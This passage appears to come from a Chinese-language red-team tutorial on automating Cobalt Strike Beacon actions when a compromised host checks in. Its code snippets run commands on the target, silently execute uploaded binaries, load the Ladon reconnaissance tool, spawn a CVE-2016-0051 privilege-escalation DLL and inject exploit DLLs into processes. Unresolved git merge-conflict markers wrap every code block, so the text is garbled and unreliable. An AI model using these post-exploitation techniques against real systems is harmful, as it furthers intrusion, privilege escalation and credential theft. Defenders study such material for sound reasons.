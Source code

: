 使用 `InlineExecute-Assembly` 方式调用 SharpHunter 即可做到 Beacon 本进程隐蔽执行任意系统命令。

### 0x05 上线自动执行

#### 常用执行函数

首先比较常用的执行 Windows 命令或后渗透工具集的函数示例如下：

1.  通过 Beacon 调用 `cmd.exe` 执行命令：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bshell($1, "taskkill -f /im lazagne.exe");
    ```
    
2.  静默运行已经上传到目标机器的可执行文件：
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bexecute($1, "notepad.exe");
    ```
    
3.  加载本地 `.NET` 执行文件
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bexecute_assembly($1, script_resource('/scripts/InfoCollect/Ladon.exe'), "GetInfo");
    ```
    
4.  加载 Reflective dll 文件
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bdllspawn($bid, script_resource("/scripts/AuthPromote/cve-2016-0051.x86.dll"), $stager, "ms16-016", 5000);
    ```
    
5.  注入 Reflective dll 文件
    
<<<<<<< HEAD
    ```plain
=======
    ```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    bdllinject($1, pid, script_resource("exp.dll"));
    ```
    